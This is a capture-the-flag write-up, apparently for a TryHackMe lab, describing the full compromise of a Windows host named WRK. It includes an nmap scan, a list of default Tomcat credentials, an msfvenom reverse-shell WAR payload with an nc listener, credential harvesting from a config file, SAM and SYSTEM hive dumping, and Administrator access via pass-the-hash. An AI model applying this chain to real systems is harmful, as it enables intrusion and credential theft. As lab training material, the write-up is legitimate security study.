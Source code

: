 # WRK.TRYHACKME.LOC

## Machine Information

Domain Name: tryhackme.loc

Machine name: WRK

## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 --open -oN port_scan.txt wrk.tryhackme.loc -Pn

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 16:14 CEST
Nmap scan report for wrk.tryhackme.loc (10.200.150.20)
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-09T14:17:29+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TRYHACKME
|   NetBIOS_Domain_Name: TRYHACKME
|   NetBIOS_Computer_Name: WRK
|   DNS_Domain_Name: tryhackme.loc
|   DNS_Computer_Name: WRK.tryhackme.loc
|   DNS_Tree_Name: tryhackme.loc
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-09T14:16:49+00:00
| ssl-cert: Subject: commonName=WRK.tryhackme.loc
| Not valid before: 2025-04-09T09:59:17
|_Not valid after:  2025-10-09T09:59:17
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp open  http          Apache Tomcat (language: en)
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.50
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (91%), Microsoft Windows 10 1903 - 21H1 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-08-09T14:16:51
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   48.98 ms 10.250.1.1
2   49.35 ms wrk.tryhackme.loc (10.200.150.20)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.06 seconds

```



## Ports Enumeration

### 8080 - Apache Tomcat

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

The version 8.5.50 doesn't seem vulnerable.

Try to authenticate into the page clicking in the "Manage App" button. And try with some possible default password of TomCat:&#x20;

```
Apache Tomcat Host Manager (web)	admin	admin
Apache Tomcat Host Manager (web)	ADMIN	ADMIN
Apache Tomcat Host Manager (web)	admin	<blank>
Apache Tomcat Host Manager (web)	admin	j5Brn9
Apache Tomcat Host Manager (web)	admin	tomcat
Apache Tomcat Host Manager (web)	cxsdk	kdsxc
Apache Tomcat Host Manager (web)	j2deployer	j2deployer
Apache Tomcat Host Manager (web)	ovwebusr	OvW*busr1
Apache Tomcat Host Manager (web)	QCC	QLogic66
Apache Tomcat Host Manager (web)	role1	role1
Apache Tomcat Host Manager (web)	role1	tomcat
Apache Tomcat Host Manager (web)	role	changethis
Apache Tomcat Host Manager (web)	root	root
Apache Tomcat Host Manager (web)	tomcat	changethis
Apache Tomcat Host Manager (web)	tomcat	s3cret
Apache Tomcat Host Manager (web)	tomcat	tomcat
Apache Tomcat Host Manager (web)	xampp	xampp
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

With the `tomcat : s3cret`  creds we are in.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Craft WAR payload with msfvenom

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.250.1.6 lport=9009 -f war -o shell.war
```

And start a listener with netcat

```
nc -lvnp 9009
```

Upload the WAR payload and then open the application from the Management page

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

We dive into this page and a connection has been establish

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>







## Lateral Movement

### Credentials in Tomcat conf file

Checking in configuration file i found this interesting file with new credentials

```
more C:/tomcat/apache-tomcat-8.5.50/conf/tomcat-users.xml

<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users>
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
<!-- Note:  Keeping credentials as default. Migration to the AD user is not yet fully working. Will be fixed in the future
<user username="svc.callback" password="qvBVAj9avM3ykcbf9s" roles="manager-gui"/>
 -->
</tomcat-users>
```

New credentials: `svc.callback : qvBVAj9avM3ykcbf9s`&#x20;



### Access through WinRM

Try this credentials found with `evil-winrm` tool.

```bash
evil-winrm -i wrk.tryhackme.loc -u 'svc.callback' -p 'qvBVAj9avM3ykcbf9s'
```

This command allow us to access into the WRK machine as `svc.callback` user.

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

### Windows Local Enumeration

With the follow command we can see all information about `svc.callback` user.

```powershell
whoami /all
```

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

From this information we can understand that the user has:

* **SeBackupPrivilege/SeRestorePrivilege**: this permisions allows an attacker to dump the all file in the system.
* is Group Owner of the local Administratos group
* SeImpersonatePrivilege: this permission allows an attacker to impersonate all authenticated user.
* Is Domain user. With this informations

```bash
User Name              SID
====================== ============================================
tryhackme\svc.callback S-1-5-21-1966530601-3185510712-10604624-3121
```



### Exploit SeBackupPrivilege

An attacker with this privilege can copy the SAM and SYSTEM file querying the registry and extract credentials from this files.

```powershell
cd C:\Temp

reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

{% code title="Evil-winrm shell" %}
```bash
download sam
download system
```
{% endcode %}

```bash
impacket-secretsdump -sam sam -system system LOCAL

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xfa0661c3eee8696eeb436f2bafa060e7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e75f25c6788a558e4f3f49714ed95e41:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:95f2822ae7e725c8e30b2b31f66c1b86:::
[*] Cleaning up... 
```

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>



### Administrator access with Pass-the-Hash

An attacker with the Administrator NTLM could make access to the machine using the Pass-the-Hash technique.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>evil-winrm -i wrk.tryhackme.loc -u 'Administrator' -H 'e75f25c6788a558e4f3f49714ed95e41'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>





## Machine Flag

To demostrate that we have compromised this machine, get the machine's flag.

```
more C:\flag.txt

THM{97fcebcc-cc05-4212-bd05-73730eeee0ed}
```



